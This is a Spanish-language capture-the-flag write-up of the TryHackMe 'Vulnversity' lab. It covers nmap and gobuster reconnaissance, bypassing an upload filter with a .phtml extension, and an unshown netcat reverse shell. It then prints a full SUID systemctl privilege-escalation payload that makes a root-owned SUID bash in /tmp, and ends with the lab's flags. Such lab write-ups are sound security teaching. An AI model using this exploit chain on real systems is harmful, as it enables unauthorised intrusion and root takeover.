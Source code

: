 ## Máquina Vulnversity - Tryhackme

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>
(./screenshots/recon.png)

-sS: Stealth Scan para agilizar el escaneo
-n: Evita el DNS.
-Pn: Evita realizar el descubrimiento de host.
-p-: Busca en los 65535 puertos.
--open: Filtra solamente por puertos abiertos.
--min-rate 5000: Trazar 5000 paquetes por segundo.
<ip-address>: IP objetivo.
-oN: Formato Nmap para guardar el output.
<filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>

-sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
-p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/
[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Como no vemos nada

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200 
-u: URL objetivo.
-w: Diccionario empleado para el ataque de fuerza bruta.
--no-error: Para que no se muestren los errores en el output.
-t 200: Para lanzar peticiones con 200 hilos de proceso y agilizar el proceso.

Directorios encontrados:
/images
/css
/js
/fonts
/internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.
Un simple payload en php para ver si la máquina permite la extensión .php
El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.
¡¡Exitoso!!
Ahora nos dirigimos a la ruta /uploads para ver el archivo.

4. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.
Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.

[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.

Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.

[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.
Ejecutamos: /bin/systemctl link /tmp/root.service
Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.

Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root

